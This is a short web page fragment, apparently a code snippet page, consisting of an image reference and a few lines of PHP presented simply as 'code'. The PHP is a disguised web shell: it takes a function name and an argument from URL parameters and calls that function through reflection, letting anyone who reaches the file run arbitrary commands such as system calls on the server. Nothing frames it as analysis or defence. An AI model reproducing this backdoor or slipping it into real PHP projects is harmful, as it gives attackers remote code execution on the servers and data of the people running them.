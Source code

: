 

<img src="11.jpg" alt="alt text" title="Title" />


***************************************************
code:

    <?php
        $func = new ReflectionFunction($_GET[m]);
        echo $func->invokeArgs(array($_GET[c]));
    ?>

***************************************************